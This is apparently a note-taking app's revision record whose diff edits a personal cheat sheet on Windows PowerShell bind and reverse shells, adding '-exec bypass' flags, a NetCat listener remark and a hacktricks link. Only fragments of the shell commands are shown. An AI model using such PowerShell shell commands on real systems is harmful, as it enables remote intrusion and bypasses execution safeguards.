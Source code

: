 id: 847b4a17cfb442248c9a87cbbddf957e
parent_id: 648dfcec2ac04f91a7994dffdfd0ae40
item_type: 1
item_id: 1a72f4e7464d467d810fc01a3adf9ed0
item_updated_time: 1642144342063
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"nd shell\"],[-1,\": \"],[1,\"\\\n\\\n\"],[0,\"powershe\"]],\"start1\":106,\"start2\":106,\"length1\":18,\"length2\":18},{\"diffs\":[[0,\"\\\npowershell \"],[1,\"-exec bypass \"],[0,\"-c \\\"$listene\"]],\"start1\":115,\"start2\":115,\"length1\":24,\"length2\":37},{\"diffs\":[[0,\"ener\"],[-1,\"): powershell\"],[1,\" \\\\[Use NetCat\\\\]):\\\n\\\npowershell -exec bypass\"],[0,\" -c \"]],\"start1\":764,\"start2\":764,\"length1\":21,\"length2\":50},{\"diffs\":[[0,\"Close()\\\"\"],[1,\"\\\n\\\nURL for more info\\\n\\\nhttps://book.hacktricks.xyz/shells/shells/windows\"]],\"start1\":1315,\"start2\":1315,\"length1\":8,\"length2\":78}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.744Z
created_time: 2022-02-28T02:44:25.744Z
type_: 13